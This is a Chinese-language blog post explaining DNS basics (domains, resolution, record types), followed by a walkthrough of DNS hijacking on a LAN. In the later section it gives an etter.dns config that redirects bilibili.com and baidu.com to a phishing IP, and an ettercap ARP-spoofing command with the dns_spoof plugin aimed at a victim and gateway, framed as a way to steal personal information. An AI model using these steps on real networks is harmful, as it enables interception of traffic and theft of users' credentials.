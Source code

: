 ```yaml
---
layout: post
title: "网络安全（一）主动进攻之DNS基础和ettercap实现DNS流量劫持"
date: "2022-10-09T19:19:00.263Z"
---
```

网络安全（一）主动进攻之DNS基础和ettercap实现DNS流量劫持
===================================

alittlemc，个人原创，个人理解和观点。若有错误、不理解请与我联系，谢谢！

*   介绍了DNS的解析过程。
*   DNS劫持的思路和实践。

DNS
===

域名
--

以为live.bilibili.com为例子，从后到前依次为顶级（一级）域名com、二级域名bilibili，三级域名live。www是特殊的标示代表主机，有一些域名再长点，就继续四级域名、五级域名加下去。

*   其实在顶级域名后还有一个根域写作**.（英文句号）**，**www.bilibili.com.**
*   顶级域名一般代表具有一定性质的网站，com商业、cn中国、gov政府机构等等
*   二级域名代表具体的网页名称所以主体
*   三级域名就是更细的划分，比如**teiba**.baidu.com
*   www是个特殊代表主机

DNS概述
-----

**DNS**（Domain Name System，域名系统），DNS简单来说就是**已知域名求IP**的服务。在TCP/IP协议下的网络中，设备之间通信都是用网络层的IP作目标标识的，但是访问网页我们往往通过域名来访问，比如bilibili对应的IP解析为119.3.70.188，https://bilibili.com比如https://119.3.70.188都可以打开bilibili站点，但是IP地址不是每个人都能很好的记忆的，更何况将来如果IPv6广泛应用了（如图1所示），所以是DNS一项很重要的技术。

![](https://img2022.cnblogs.com/blog/2928139/202210/2928139-20221008200222990-1520299257.png)

**图1**.www.bilibili.com解析出的IPv6地址

DNS服务在提供域名解析额同时，还为服务器提供负载均衡，IP优化域名优化的效果。

*   DNS一条域名可以解析出多条IP结果，这些IP对应提供相同的服务但是位置不同的服务器，将不同的IP返回给用户，不至于让某台服务器压力太大。
*   有一些高级的DNS服务器会客户的运营商提供较优的IP，比如在广西访问广东的IP往往比访问北京的来得更快些。

![](https://img2022.cnblogs.com/blog/2928139/202210/2928139-20221008210432576-19178791.png)

  **图2**.bilibili.com全部解析结果

DNS解析过程
-------

DNS一开始本机会“**先求人不如求己**”，先查询本机DNS存放在内存中缓存（这缓存几个小时后清除），本机hosts文件。实在是没有才会向本机设置的DNS Server发起请求，本机的DNS Server为阿里的223.5.5.5。

DNS使用UDP:53端口（当然也可以使用TCP:53，在较大请求和返回数据的情况下使用，因为UDP报文最大576字节且后续报文不分片直接丢弃。所以减去UDP报头，DNS报文数据限制在512字节内）。UDP的报文很干净，一来一回也不需要握手。

*   在终端输入NSLOOKUP查询一下www.bilibili.com，并且抓包：

![](https://img2022.cnblogs.com/blog/2928139/202210/2928139-20221008210936008-1059768507.png)

 **图3**.本机192.168.4.1与DNS Server 223.5.5.5的请求过程

DNS Server接受到任务后会查询DNS数据库的，当然“人非圣贤孰能无过”，DNS Server也会查询不到IP，会再向上游DNS Server发起请求：

*   递归查询：不知道就问上一级（PC请求Server1时候也属于递归查询）
*   迭代查询：不知道认识的都问一遍

![](https://img2022.cnblogs.com/blog/2928139/202210/2928139-20221008215532741-476720014.png)

 **图4**.本机192.168.4.1与DNS Server 223.5.5.5的请求过程

 DNS查询记录
--------

DNS有不同的记录：

*   A 记录
    *   域名解析IPv4地址
*   AAAA 记录
    *   和A 记录类似，域名解析IPv6 地址
*   PTR记录
    *   IP解析域名，即反向解析，比如nslookup输入server 223.5.5.5反向解析出了public1.alidns.com

![](https://img2022.cnblogs.com/blog/2928139/202210/2928139-20221009211416539-2015593226.png)

**图5**.反向解析

*   CNAME 记录
    *   CNAME 记录另一个别名域，

![](https://img2022.cnblogs.com/blog/2928139/202210/2928139-20221009204338882-250460677.png)

**图6**.a.w.bilibili.com和www.bilibili.com相同

*   其他的记录还有:SOA 记录还有、MX记录、NS记录、TXT记录、SRV记录、APL记录、CAA记录、DNAME记录 等等。太多啦，不在本次的讨论范围啦。
    

基于ettercap实现DNS劫持
=================

完成思路
----

温馨提示：DNS劫持是违法的，请不要以身试法（一般情况我们称黑客 为小黑子香精捞饭）

1.  搭建假的DNS Server提供可以自定义DNS解析条件，基于ettrcap使用自带的**/etc/ettercap/etter.dns**。
2.  搭建假的钓鱼网站，其IP由假的DNS服务器提供，当然也可以搭建某些中转的网站，比如某个编写了恶意脚本的站点，用户打开后GET 其URL，再执行脚本后跳转。（相比于近似发，taobao.com和ta0ba0.com，DNS可以让正确的域名对于错误的站点，更隐蔽）
3.  部署站点：
    *   ettercap的基于可arp来实现的，所以只在局域网中使用，用于。
    *   钓鱼网站站点可以搭建在局域网内也可以搭建在公网中，具体内容和作用嘛，其实应该有看见过，用于盗取一些个人信息；配置使用nginx、apache作为中间价，PHP之类作为解析（或者静态的html，post到动态PHP界面）
4.  使用ettercap发起攻击

ettercap的使用
-----------

ettercap是基于ARP 地址欺骗来实现中间人攻击的工具。

可恶我的kali截图丢了，后面我会补上。

一般情况下完整版的Kali是自带甚至有图形界面，

*   github：https://github.com/Ettercap/ettercap
*   官网：[Downloads « Ettercap (ettercap-project.org)](https://www.ettercap-project.org/downloads.html)

### 编辑（假DNS请求）**/etc/ettercap/etter.dns**

\# 域名    A    钓鱼网站IP
# 比如
# 正向A

www.bilibili.com    A    10.100.10.4
www.baidu.com    　A    10.100.10.4

# 反向PRT
www.bilibili.com    PRT    10.100.10.4
www.baidu.com    PRT    10.100.10.4

### 发起攻击过程

\# 查看网关 网卡等
root @ localhost in ~ \[21:54:10\] C:1$ **sudo route -****n**
Kernel IP routing table
Destination Gateway Genmask Flags Metric Ref Use Iface
**10.100.10.1** 0.0.0.0 255.255.255.192 U 0 0 0 **wlan0**

\---

**ettercap -i wlan0 -Tq -M arp:remote -P dns\_spoof /被攻击者ip// /被攻击者网关//**
\-i <网卡>：指定网卡
\-T：只显示文本
\-q：安静模式，不显示抓到的数据包内容
\-M <攻击方式>：执行中间人攻击，这里的arp:remote为arp欺骗
\-P <插件名>：使用的插件，这里使用dns\_spoof即可dns欺骗插件

**ettercap -i wlan0 -Tq -M arp:remote -P dns\_spoof /10.100.10.120// /10.100.10.1//**

\--

今天先写这么多啦，好困啊，今天早点休息吧。